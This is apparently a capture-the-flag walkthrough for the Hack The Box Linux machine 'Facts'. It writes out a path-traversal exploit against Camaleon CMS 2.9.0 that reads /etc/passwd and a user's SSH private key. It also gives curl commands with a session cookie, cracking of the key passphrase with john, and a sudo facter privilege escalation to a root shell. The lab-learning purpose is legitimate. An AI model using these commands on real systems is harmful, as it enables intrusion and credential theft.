- Machine Name: Facts
- OS Type: Linux
- Difficulty: Easy

### Port Scanning - Service & Version Enumeration

```php

```

### 

## Enumeration

### Port 80/HTTP

we found http site running on the port 80, first we need the hostname to /etc/hosts file using 

```php
echo "10.129.19.195 facts.htb facts" | sudo tee -a /etc/hosts
```

and then visit the website 


after running gobuster i found the admin panel link

```php
gobuster dir -u http://facts.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt
```



visiting the admin page we’ve found the following login page



we’ve tried the default creds such as admin:admin but was not working there was the option for the create an account so i’ve created the admin account and login with that



we can see that it is running camaleon CMS version 2.9.0 

after searching lot i found https://vulners.com/githubexploit/300B85BE-7B44-50B4-AC2A-336B8AFD2D88



so we can see that this endpoint is vulnerable 

i’ve tried this [`http://facts.htb//admin/media/download_private_file?file=../../../../../../etc/passwd`](http://facts.htb//admin/media/download_private_file?file=../../../../../../etc/passwd) 

and we’ve got the /etc/passwd file downloaded on our system



we can see that there is 2 user’s in the system trivia and william, also we’ve noticed that SSH port was open on the target so let’s try to get the private key 

we can do same by curl command but we need to specify the cookie as this is authenticated endpoint 

```php
curl http://facts.htb//admin/media/download_private_file?file=../../../../../../etc/passwd -H "Cookie: auth_token=t49tnQQVzQdAX_pKH8KKZQ&Mozilla%2F5.0+%28X11%3B+Linux+x86_64%3B+rv%3A140.0%29+Gecko%2F20100101+Firefox%2F140.0&10.10.14.132"
```



so first i’ll check the authorized_keys file for both users if any available so we can confirm which user has the access using SSH private key and what kind of keys they are using

```bash
curl http://facts.htb//admin/media/download_private_file?file=../../../../../../home/trivia/.ssh/authorized_keys -H "Cookie: auth_token=t49tnQQVzQdAX_pKH8KKZQ&Mozilla%2F5.0+%28X11%3B+Linux+x86_64%3B+rv%3A140.0%29+Gecko%2F20100101+Firefox%2F140.0&10.10.14.132"
```



we can confirm that the trivia user is using ssh key, let’s check if we can access the ssh private key or not

```bash
curl http://facts.htb//admin/media/download_private_file?file=../../../../../../home/trivia/.ssh/id_ed25519 -H "Cookie: auth_token=t49tnQQVzQdAX_pKH8KKZQ&Mozilla%2F5.0+%28X11%3B+Linux+x86_64%3B+rv%3A140.0%29+Gecko%2F20100101+Firefox%2F140.0&10.10.14.132"
```



we can connect with the ssh using 

```bash
ssh trivia@10.129.19.195 -i id_ed25519
```



oopps!! it requires the passphrase

to crack the passphrase we can use the `ssh2john`and `john`tool

```bash
ssh2john id_ed25519 > hash
```

and then use john to crack the hash

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```



login using ssh now

```bash
ssh trivia@10.129.19.195 -i id_ed25519
```

enter the passphrase dragonballz

after login we’ve ran the sudo -l command

```bash
sudo -l
```



we’ve found that user trivia can run /usr/bin/facter using sudo as root without provide

after searching a bit i found the GTFObins (i don’t like new GTFOBins that’s why i used internet archive 

https://web.archive.org/web/20250823012220/https://gtfobins.github.io/gtfobins/facter/#sudo

```bash
echo 'exec("/bin/bash")' > /tmp/root.rb
```

and then we can check the help for facter using `facter -h` 



we can specify the custom dir to run the facts as it will run any ruby file from that directory i’ve specified the /tmp

```bash
sudo /usr/bin/facter --custom-dir /tmp
```



Bingo!!!!  We’re ROOT!!